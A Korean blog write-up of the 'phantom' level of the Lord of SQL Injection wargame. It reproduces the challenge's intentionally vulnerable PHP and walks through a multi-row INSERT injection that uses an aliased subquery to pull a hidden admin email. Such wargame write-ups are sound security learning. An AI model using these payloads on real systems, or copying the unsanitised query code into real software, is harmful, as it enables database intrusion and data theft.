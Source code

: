 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - phantom 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번엔 유령이다 유령  

`phantom` 이라는 문제인데 Write-up은 `The Phantom Of The Opera` 들으면서 써야겠다.  

<!--more-->

코드는 다음과 같다.  

|     ip    |      email     |
|:---------:|:--------------:|
| 127.0.0.1 | ************** |

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect("phantom");

  if($_GET['joinmail']){
    $query = "insert into prob_phantom values(0,'{$_SERVER[REMOTE_ADDR]}','{$_GET[joinmail]}')";
    mysql_query($query);
    echo "<hr>query : <strong>{$query}</strong><hr>";
  }

  $rows = mysql_query("select no,ip,email from prob_phantom where no=1 or ip='{$_SERVER[REMOTE_ADDR]}'");
  echo "<table border=1><tr><th>ip</th><th>email</th></tr>";
    while(($result = mysql_fetch_array($rows))){
    if($result['no'] == 1) $result['email'] = "**************";
    echo "<tr><td>{$result[ip]}</td><td>{$result[email]}</td></tr>";
  }
  echo "</table>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_phantom where no=1 and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])){ mysql_query("delete from prob_phantom where no != 1"); mysql_query("alter table prob_phantom AUTO_INCREMENT=2"); solve("phantom"); }
  highlight_file(__FILE__);
?>
```

보면 `joinmail`이라는 이름으로 가입 할(?) 이메일 주소를 입력 받는다.  

그리고 현재 데이터베이스에 저장되어 있는 값 중, `no=1`인 값과 내 IP 주소와 같은 주소로 저장되어 있는 행을 `select` 해 출력 해 준다.  

이 때, `no=1`인 행의 `email` 주소는 `**************`로 바뀌어 출력된다.  

문제를 풀기 위해서는 `no=1`인 행의 `email`의 주소를 정확하게 알아내면 된다.  

`joinmail`에서 테스트를 해 보았더니, 넘어온 값에 대해 제대로 검증을 하지 않아 한번에 여러 행을 추가할 수 있다는 사실을 알아냈다.  

```
?joinmail=test1'), (2, 'MY IP', 'test2
```

이렇게 입력하면 완성되는 쿼리는 아래와 같다.  

```
insert into prob_phantom values(0,'MY IP','test1'), (2, 'MY IP', 'test2')
```

그 결과 한번에 `test1`과 `test2`가 저장된 것을 확인할 수 있다.  

그래서 처음에는 `no=1`인 행을 덮어 쓰면 되지 않을까 생각했다.  

근데 `no` 자리에 `1`을 넣어서 시도 해 보면 아예 쿼리가 먹히지 않았다.  

아무래도 뭔가 설정 상으로 막아둔 것 같았다.  

그래서 그 다음 방법으로는 `insert`문에 `select`로 `subquery`를 넣어 `no=1`인 행의 `email`을 뽑아 새로운 행으로 저장하는 방법을 생각했다.  

처음에 문법을 제대로 몰라서 좀 삽질을 했다.  

내 서버에서 테스트를 좀 했었는데, `ERROR 1093 (HY000): You can't specify target table 'user' for update in FROM clause` 이런 오류가 계속 났다.  

알고보니 현재 테이블에서 값을 뽑아 현재 테이블의 값으로 저장하는 것은 안된다고 한다.  

예를 들어, 아래와 같은 `insert`문을 작성했다고 가정하자.  

```
insert into user value('id1', 'pw1'), ('id2', (select pw from user where id='admin'));
```

이 경우, `user`라는 테이블에 `user` 테이블에서 값을 추출 해 삽입하기 때문에 위와 같은 `1093`에러가 발생한다.  

이 때 간단한 해결 방법이 있는데, 바로 `select` 문에서 테이블 명에 별칭을 주는 것이다.  

```
insert into user value('id1', 'pw1'), ('id2', (select pw from user tmp where id='admin'));
```

위와 같이 `select pw from user`를 `select pw from user tmp`로 바꾸면 에러가 발생하지 않는다.  

이를 바탕으로 쿼리문을 아래와 같이 구성했다.  

```
?joinmail=test'), (3, '210.126.104.194', (select email from prob_phantom tmp where no=1))#
```

그 결과 평문으로 된 `no=1`인 행의 `email` 주소를 얻을 수 있었다.  

|     ip    |            email           |
|:---------:|:--------------------------:|
| 127.0.0.1 | **************             |
| MY IP     | admin_secure_email@debu.kr |
| MY IP     |            test            |

이제 이메일을 구했으니, `?email=admin_secure_email@debu.kr`을 쿼리스트링으로 넘기면 문제를 풀 수 있다.  

```php
PHANTOM Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect("phantom");

  if($_GET['joinmail']){
    $query = "insert into prob_phantom values(0,'{$_SERVER[REMOTE_ADDR]}','{$_GET[joinmail]}')";
    mysql_query($query);
    echo "<hr>query : <strong>{$query}</strong><hr>";
  }

  $rows = mysql_query("select no,ip,email from prob_phantom where no=1 or ip='{$_SERVER[REMOTE_ADDR]}'");
  echo "<table border=1><tr><th>ip</th><th>email</th></tr>";
    while(($result = mysql_fetch_array($rows))){
    if($result['no'] == 1) $result['email'] = "**************";
    echo "<tr><td>{$result[ip]}</td><td>{$result[email]}</td></tr>";
  }
  echo "</table>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_phantom where no=1 and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])){ mysql_query("delete from prob_phantom where no != 1"); mysql_query("alter table prob_phantom AUTO_INCREMENT=2"); solve("phantom"); }
  highlight_file(__FILE__);
?>
```

`PHANTOM Clear!!`